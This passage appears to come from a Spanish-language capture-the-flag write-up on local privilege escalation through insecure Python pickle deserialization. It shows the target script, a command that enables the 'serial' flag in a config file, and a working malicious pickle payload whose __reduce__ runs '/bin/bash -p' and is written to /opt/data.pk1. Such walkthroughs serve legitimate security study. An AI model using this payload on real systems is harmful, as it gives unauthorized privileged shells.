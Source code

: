 ```python
        for line in config_file:
            if line.startswith('serial='):
                value = line.split('=')[1].strip()
                return value.lower() == 'on'
    
    return False

if __name__ == "__main__":
    if is_serial_enabled(config_file_path):
        data = load_pickle_file(file_path)
        if data is not None:
            print("Datos deserializados correctamente, puedes revisar /tmp")
#            print(data)
    else:
        print("La serialización está deshabilitada. El programa no se ejecutará.")
```

primero activo la serialización en el archivo .conf:

```css
echo "" > /home/maci/.time_seri/time.conf && echo "serial=on" > /home/maci/.time_seri/time.conf 
```

 luego de buscar encontré el siguiente exploit el cual nos puede ayudar a crear el archivo .pk1:

```python
import pickle
import os

# Create a malicious class
class Malicious:
    def __reduce__(self):
        # os.system will execute the command
        return (os.system, ('echo "This is malicious code!"',))

# Serialize the malicious object
malicious_data = pickle.dumps(Malicious())

# Deserialize the malicious object (this will execute the command)
pickle.loads(malicious_data)
```

nosotros lo debemos modificar de la siguiente manera para poder ejecutar otro comando y hacer que el archivo quede en `/opt/data.pk1` como pide el script de python que podemos ejecutar como `maci`:

```css
import pickle
import os

# Create a malicious class
class Malicious:
    def __reduce__(self):
        # os.system will execute the command
        return (os.system, ('/bin/bash -p',))

# Serialize the malicious object
malicious_data = pickle.dumps(Malicious())

# Write the serialized object to a file in /tmp
with open('/opt/data.pk1', 'wb') as file:
    file.write(malicious_data)
```
